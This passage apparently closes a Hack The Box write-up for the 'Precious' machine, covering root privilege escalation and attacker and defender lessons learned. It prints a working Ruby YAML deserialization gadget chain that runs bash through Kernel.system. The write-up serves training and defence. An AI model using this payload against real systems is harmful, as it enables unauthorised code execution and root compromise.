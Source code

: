 So instead of running `id`, just run `bash`. Yep, it really is that simple :thumbsup:

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: bash
         method_id: :resolve
```

![root shell-blurred](root%20shell-blurred.png)

And there's the root flag! :tada:



## LESSONS LEARNED

### Attacker

- Use searchsploit and a search engine often. During a penetration test, it is fair game to build on the work of others: for an HTB box, chances are low that you're going to blaze a new trail and write novel PoC code, so always check for CVEs!
- Utilize an enumeration tool like **linpeas** early on, once you've gained a foothold. This can help you rapidly find the vulnerabilities that you'll need to get the flags.
- Keep the name of the box in mind. In this case, "precious" is a reference to "ruby", which was a major hint for later in the box.

### Defender

- If you're making a web service that generates PDFs, you absolutely must:
  - Sanitize any user input. Foothold could have been prevented by eliminating the backticks in the provided URL.
  - Use an up-to-date version of your the PDF writer.
- Never leave credentials for one user inside a file owned by another user. Please just use a password manager.
- Ruby handles relative filepaths in a way I never would have expected. Consider using absolute filepaths instead.
- If you're using Ruby, make sure you use `YAML.safe_load()` instead of the unsafe (and deprecated) `YAML.load()`.
